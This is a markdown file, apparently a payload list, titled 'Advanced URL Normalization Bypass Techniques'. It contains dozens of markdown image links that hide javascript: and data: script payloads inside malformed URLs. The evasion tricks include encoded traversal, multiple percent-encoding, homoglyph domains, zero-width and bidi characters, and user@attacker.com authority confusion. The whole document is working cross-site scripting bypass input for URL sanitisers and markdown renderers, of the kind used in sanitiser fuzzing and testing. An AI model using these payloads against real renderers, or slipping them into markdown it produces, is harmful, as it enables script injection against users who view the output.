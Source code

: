 # Advanced URL Normalization Bypass Techniques

## URL constructor edge cases with malformed input
![test](https://safe.com/\..\javascript:alert('backslash-traverse'))
![test](https://safe.com/\x2e\x2e\x2fjavascript:alert('hex-dots'))
![test](https://safe.com/\u002e\u002e\u002fjavascript:alert('unicode-dots'))

## WHATWG URL parsing inconsistencies
![test](https://safe.com/normal/../\x00javascript:alert('null-after-traverse'))
![test](https://safe.com:80@attacker.com/javascript:alert('auth-port-hijack'))
![test](https://safe.com\x09javascript:alert('tab-injection'))

## URL normalization with mixed separators
![test](https://safe.com\\javascript:alert('backslash-scheme-sep'))
![test](https://safe.com/\\/javascript:alert('mixed-slash-types'))
![test](https://safe.com/normal\x2fjavascript:alert('hex-slash'))

## Percent-encoding normalization bypass
![test](https://safe.com/%2F..%2F..%2Fjavascript:alert('encoded-traverse'))
![test](https://safe.com/%252E%252E%252Fjavascript:alert('double-encode-dots'))
![test](https://safe.com/%25%32%65%25%32%65%25%32%66javascript:alert('triple-encode'))

## Unicode normalization form attacks
![test](https://safe.com/\u002E\u002E\u002Fjavascript:alert('decomposed-dots'))
![test](https://safe.com/︰javascript:alert('presentation-colon'))
![test](https://safe.com/﹕javascript:alert('small-colon'))

## URL with fragment identifier manipulation
![test](https://safe.com/image.jpg#\x00javascript:alert('null-fragment'))
![test](https://safe.com/image.jpg#../../../javascript:alert('fragment-traverse'))
![test](https://safe.com/image.jpg#data:text/html,<script>alert(1)</script>)

## Query parameter injection for bypass
![test](https://safe.com/image.jpg?\x00=javascript:alert('null-param'))  
![test](https://safe.com/image.jpg?../../../evil=javascript:alert('param-traverse'))
![test](https://safe.com/image.jpg?redirect=data:text/html,<script>alert(1)</script>)

## Internationalized Domain Name edge cases
![test](https://ѕafe.com/javascript:alert('cyrillic-s'))
![test](https://safe。com/javascript:alert('ideographic-period'))
![test](https://safe‍.com/javascript:alert('zwj-domain'))

## URL with zero-width and invisible characters
![test](https://safe.com/​javascript:alert('zwsp-path'))
![test](https://safe.com/‌javascript:alert('zwnj-path'))
![test](https://safe.com/‍javascript:alert('zwj-path'))
![test](https://safe.com/javascript:alert('invisible'))

## Protocol confusion with URL constructor
![test](safe.com/javascript:alert('relative-scheme-confusion'))
![test](/\\/javascript:alert('protocol-relative-confusion'))
![test](\\safe.com\\javascript:alert('unc-path-confusion'))

## URL with mathematical alphanumeric symbols  
![test](https://𝓈𝒶𝒻𝑒.𝒸𝑜𝓂/𝒿𝒶𝓋𝒶𝓈𝒸𝓇𝒾𝓅𝓉:𝒶𝓁𝑒𝓇𝓉('math-unicode'))
![test](https://𝖘𝖆𝖋𝖊.𝖈𝖔𝖒/𝖏𝖆𝖛𝖆𝖘𝖈𝖗𝖎𝖕𝖙:𝖆𝖑𝖊𝖗𝖙('fraktur'))

## URL with combining characters disrupting parsing
![test](https://safe.com/java̸script:alert('combining-slash'))
![test](https://safe.com/javascript̰:alert('combining-tilde'))  
![test](https://safe.com/javascript⃣:alert('combining-keycap'))

## URL constructor double-parsing exploitation
![test](https://safe.com/%%6A%61%76%61%73%63%72%69%70%74:alert('double-percent'))
![test](https://safe.com/%25%36%41%61%76%61%73%63%72%69%70%74:alert('meta-hex'))

## Exploit URL normalization order dependencies
![test](https://safe.com/.%2e/.%2e/javascript:alert('mixed-dot-encoding'))
![test](https://safe.com/%252e%252e%252fjavascript:alert('deep-encoding'))

## Malformed URL with constructor fallback exploitation
![test](https://safe.com:99999999999999999999/javascript:alert('port-overflow'))
![test](https://safe.com:-1/javascript:alert('negative-port'))
![test](https://safe.com:0x50/javascript:alert('hex-port'))

## URL with authority-parsing edge cases
![test](https://user@safe.com:pass@attacker.com/javascript:alert('auth-confusion'))
![test](https://safe.com@attacker.com:80/javascript:alert('at-port-confusion'))
![test](https://safe.com#@attacker.com/javascript:alert('fragment-auth'))

## Encoded colon bypass attempts in scheme
![test](https%3A//safe.com/javascript:alert('encoded-scheme-colon'))
![test](javascript%3aalert('full-encoded-scheme'))
![test](java%73cript:alert('partial-encoded-scheme'))

## URL with bidirectional text and scheme confusion
![test](https://safe.com/‮tpircsavaj:alert('bidi-scheme-spoof'))
![test](‮tpircsavaj:alert('full-bidi-scheme'))
![test](https://safe.com/java‮tpircs:alert('partial-bidi'))

## URL constructor with malformed authority
![test](https://[::1@attacker.com]/javascript:alert('ipv6-spoof'))
![test](https://safe.com\@attacker.com/javascript:alert('backslash-at'))
![test](https://safe.com%40attacker.com/javascript:alert('encoded-at'))